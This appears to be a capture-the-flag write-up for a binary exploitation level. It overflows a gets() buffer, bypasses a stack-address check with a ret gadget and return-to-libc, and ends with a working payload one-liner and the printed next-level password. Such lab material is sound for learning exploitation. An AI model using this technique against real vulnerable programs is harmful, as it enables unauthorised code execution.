 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

To check for a buffer overflow, we input a large string exceeding 100 characters:
```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
ldd ./level2 | grep libc
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
```
Next, we find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```
We export the shell we want to use:
```
$ export SHELL=/bin/sh
```
Then, we write a small program to find the address of environment variables (available in ressoures).
```
$ gcc getenv.c -o getenv
$ ./getenv SHELL
SHELL is at 0xbffff935
```
We need to determine the offset at which the buffer overflows:
```
gdb> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb> r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 76
EIP+0 found at offset: 80
```
Now, we prepare the payload:
```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
